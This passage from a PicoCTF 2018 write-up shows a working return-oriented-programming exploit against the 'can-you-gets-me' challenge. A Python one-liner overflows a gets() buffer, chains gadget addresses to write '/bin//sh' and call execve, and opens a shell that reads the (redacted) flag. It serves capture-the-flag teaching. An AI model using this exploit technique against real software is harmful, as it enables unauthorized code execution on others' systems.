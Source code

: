 Finally, you can verify that it all works as expected:
```
$ cd /problems/can-you-gets-me_1_e66172cf5b6d25fffee62caf02c24c3d
$ (python -c 'import struct, os; p = lambda x : struct.pack("<I", x); os.write(1, (b"U"*28 + p(0x080b84d6) + b"/bin" + p(0x0806f19a) + p(0x080ea060) + p(0x08054b4b) + p(0x080b84d6) + b"//sh" + p(0x0806f19a) + p(0x080ea064) + p(0x08054b4b) + p(0x080b84d6) + p(0x00000000) + p(0x0806f19a) + p(0x080ea068) + p(0x08054b4b) + p(0x080b84d6) + p(0x0000000b) + p(0x0806f1c0) + p(0x080ea068) + p(0x080ea068) + p(0x080ea060) + p(0x0806f7a0) + b"\n"))'; cat -) | ./gets
GIVE ME YOUR NAME!
ls
flag.txt  gets  gets.c
cat flag.txt
picoCTF{===REDACTED===}
```
{:.contains-term}

**Congrats**: You've now mastered *every single buffer overflow exploit*, head back to the  [PicoCTF 2018 BinExp Guide]({% link _reference/hacking-101/picoctf-2018-binary-exploits.md %}) to continue with the heap challenges!